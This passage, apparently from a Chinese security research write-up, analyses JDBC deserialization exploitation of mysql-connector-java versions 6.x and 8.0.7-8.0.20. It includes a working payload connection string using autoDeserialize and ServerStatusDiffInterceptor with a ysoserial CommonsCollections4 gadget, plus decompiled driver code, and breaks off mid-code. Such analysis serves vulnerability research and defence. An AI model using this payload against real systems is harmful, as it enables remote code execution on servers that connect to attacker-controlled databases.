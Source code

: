 [![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/a5155763-0e54-4993-8e7f-982d26fb9ad6.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/0cd9d2e6-7236-49e5-9eec-3acadd5e2416.png)

### [6.x](#toc_6x)

mysql-connector-java 6.x此利用链与上述5.1.11-5.x.xx完全相同，仅因更改jdbc包，由com.mysql.jdbc改为com.mysql.cj.jdbc。  
栈调用详情如下：  
[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/3afe42ee-111d-44ef-ae35-3092a58126ee.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/c4a6f4e1-50c5-4781-a306-a746737b49e9.png)

#### [payload](#toc_payload_6)

`String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);` 

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/254d5d46-47de-44d5-8957-d62edfbb4760.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/91af16a9-e35a-478c-bc0f-0d2ce9637362.png)

### [8.0.7-8.0.20](#toc_807-8020)

调用至com.mysql.cj.jdbc.ConnectionImpl构造方法（mysql-connector-java 8.0.7-dmr）

`public ConnectionImpl(HostInfo hostInfo) throws SQLException {
    try {
        this.origHostInfo = hostInfo;
        this.origHostToConnectTo = hostInfo.getHost();
        this.origPortToConnectTo = hostInfo.getPort();
        this.nullStatementResultSetFactory = new ResultSetFactory(this, (StatementImpl)null);
        this.session = new MysqlaSession(hostInfo, this.getPropertySet());
        this.session.addListener(this);
        this.autoReconnectForPools = this.getPropertySet().getBooleanReadableProperty("autoReconnectForPools");
        this.cachePrepStmts = this.getPropertySet().getBooleanReadableProperty("cachePrepStmts");
        this.autoReconnect = this.getPropertySet().getModifiableProperty("autoReconnect");
        this.profileSQL = this.getPropertySet().getModifiableProperty("profileSQL");
        this.useUsageAdvisor = this.getPropertySet().getBooleanReadableProperty("useUsageAdvisor");
        this.reconnectAtTxEnd = this.getPropertySet().getBooleanReadableProperty("reconnectAtTxEnd");
        this.emulateUnsupportedPstmts = this.getPropertySet().getBooleanReadableProperty("emulateUnsupportedPstmts");
        this.ignoreNonTxTables = this.getPropertySet().getBooleanReadableProperty("ignoreNonTxTables");
        this.pedantic = this.getPropertySet().getBooleanReadableProperty("pedantic");
        this.prepStmtCacheSqlLimit = this.getPropertySet().getIntegerReadableProperty("prepStmtCacheSqlLimit");
        this.useLocalSessionState = this.getPropertySet().getBooleanReadableProperty("useLocalSessionState");
        this.useServerPrepStmts = this.getPropertySet().getBooleanReadableProperty("useServerPrepStmts");
        this.processEscapeCodesForPrepStmts = this.getPropertySet().getBooleanReadableProperty("processEscapeCodesForPrepStmts");
        this.useLocalTransactionState = this.getPropertySet().getBooleanReadableProperty("useLocalTransactionState");
        this.maxAllowedPacket = this.getPropertySet().getModifiableProperty("maxAllowedPacket");
        this.disconnectOnExpiredPasswords = this.getPropertySet().getBooleanReadableProperty("disconnectOnExpiredPasswords");
        this.readOnlyPropagatesToServer = this.getPropertySet().getBooleanReadableProperty("readOnlyPropagatesToServer");
        this.database = hostInfo.getDatabase();
        this.user = StringUtils.isNullOrEmpty(hostInfo.getUser()) ? "" : hostInfo.getUser();
        this.password = StringUtils.isNullOrEmpty(hostInfo.getPassword()) ? "" : hostInfo.getPassword();